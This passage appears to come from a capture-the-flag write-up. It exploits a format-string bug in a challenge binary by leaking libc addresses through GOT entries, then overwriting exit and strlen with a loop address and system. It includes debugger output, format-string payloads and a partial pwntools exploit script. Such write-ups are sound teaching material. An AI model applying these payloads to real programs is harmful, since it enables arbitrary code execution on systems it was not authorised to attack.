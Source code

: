 Now the program is no longer exiting after running a single command, great :D. We can use this to leak data we need to finish our exploit. First, we need to get libc base address. We can do this by finding offset of some function in libc and leaking resolved address of the same function during run-time, deducting offset will give us libc base address.

Let’s get address of `fgets` **GOT** entry:

~~~text
    pwndbg> info functions fgets@plt
    All functions matching regular expression "fgets@plt":
    Non-debugging symbols:
    0x00000000004006e0  fgets@plt
    pwndbg> disassemble 0x00000000004006e0
    Dump of assembler code for function fgets@plt:
       0x004006e0 <+0>: jmp    QWORD PTR [rip+0x200b4a]  # 0x601230 
       ....
    End of assembler dump.
~~~

Next, we have to find offsets of `fgets` and `system` in libc.

    $readelf -s ./libc.so.6 | grep system
    1337: 0000000000041490 45 FUNC WEAK DEFAULT   12 system@@GLIBC_2.2.5
    ....
    784: 000000000006e990 424 FUNC WEAK DEFAULT   13 fgets@@GLIBC_2.2.5

We have to use same libc as one on target system since offsets can be different (or at least check them on similar system). Now we have to leak address of `fgets`:

    'exit'.ljust(8) + '|%16$s|'.rjust(8) + fgets_got

`%s` specifier will read data from the given address as a string. And now we have everything we need, the last step is to overwrite `strlen` (just since it's called only in `set_prompt`) with the address of `system` (system offset + libc base).

Pwntools script implementing all of the steps:

~~~python
#!/usr/bin/env python
from pwn import *

#Consts:
fgets_got     = p64(0x601230)
exit_got      = p64(0x601258)
strlen_got    = p64(0x601210)
fgets_offset  = 0x69df0
system_offset = 0x41490

env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}

format_string_1 = "A"*8 + ".%p" * 20            #explore stack
format_string_2 = "A"*8 + ".%15$p"              #read our input
format_string_3 ="|%16$p|".rjust(8) + exit_got  #read address we put

def overwrite_exit(r):
	#loop address 0x4009bd
	#2493 value of last 16 bits of loop address, 2499 is value we get, 6 difference, so we deduct 
	format_string_4 ="%{0}c|%17$hn|".format(2493 - 6).rjust(16) + exit_got
	#use ljust to avoid problems with stack aligment
	payload = "exit".ljust(8) + format_string_4

	r.sendline(payload)
	#gdb.attach(r)
	r.recvuntil('Config action: Exit message set!')	
	r.recvuntil('Config action:')	

def overwrite_strlen(r, system_addr):
	addr_part_1 = system_addr & 0xFFFF
~~~